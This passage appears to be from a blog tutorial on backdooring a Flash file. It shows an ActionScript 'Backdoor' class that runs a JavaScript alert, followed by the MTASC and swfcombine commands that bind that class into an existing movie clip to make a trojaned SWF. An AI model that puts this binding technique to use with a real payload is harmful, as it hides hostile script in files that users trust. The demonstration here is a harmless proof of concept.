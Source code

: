     Long story short, I had the tool that I needed. I changed my **backdoor.as** file back to the following.

    class Backdoor {
      function Backdoor() {
      }

      static function main(mc) {
        getURL("javascript:alert('hello from backdoor')");
      }
    }

    Yes, this is my initial script. The next stage was to compile it to an one-frame SWF file. Than all I needed to do is to bind both my backdoor and "The Corruptibles" movie clip into a single file.

    c:\Mtasc\mtasc.exe -swf backdoor.swf -main -header 500:365:24 backdoor.as
    c:\Swftools\swfcombine.exe -o The_Corruptibles_backdoored.swf -T backdoor.swf The_Corruptibles.swf

_"Voila! There is my backdoor, trojan or virus. So now what? Hard to say!"_
